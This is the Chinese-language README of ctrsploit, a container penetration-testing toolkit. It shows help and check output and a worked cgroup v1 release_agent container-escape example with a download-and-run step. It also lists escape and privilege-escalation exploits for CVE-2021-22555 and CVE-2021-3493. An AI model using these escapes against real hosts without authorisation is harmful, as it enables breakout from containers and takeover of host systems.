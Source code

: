 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

ctrsploit 读作container sploit

## 为什么我们需要ctrsploit
[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## 手动编译
### 容器编译
```bash
export APT_MIRROR=repo.huaweicloud.com
export GOPROXY=https://goproxy.cn,https://goproxy.io,direct
make binary && ls -lah bin/release
```

### 本地编译

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### 漏洞利用

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### 安全检查
在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## 详细信息

### env

| 子命令                              | 简写    | 描述                         |
|----------------------------------|-------|----------------------------|
| [where](./env/where)             | w     | 检测你是否在容器内，在何种类型的容器内        |
| [graphdriver](./env/graphdriver) | g     | 检测graphdriver类型和扩展信息       |
| [cgroups](./env/cgroups)         | c     | 收集cgroup信息                 |
| [capability](./env/capability)   | cap   | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp)         | s     | 显示seccomp信息                |
| [apparmor](./env/apparmor)       | a     | 显示apparmor信息               |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns |

### exploit

| exploit | 缩写 | 简述 |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent) | ra | 利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3 | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04) | 22555 | 利用CVE-2021-22555的逃逸技术 (ubuntu18.04) |

### helper
| helper | 缩写 | description |
| --- | --- | --- |
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS 本地提权 |

### checksec
在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`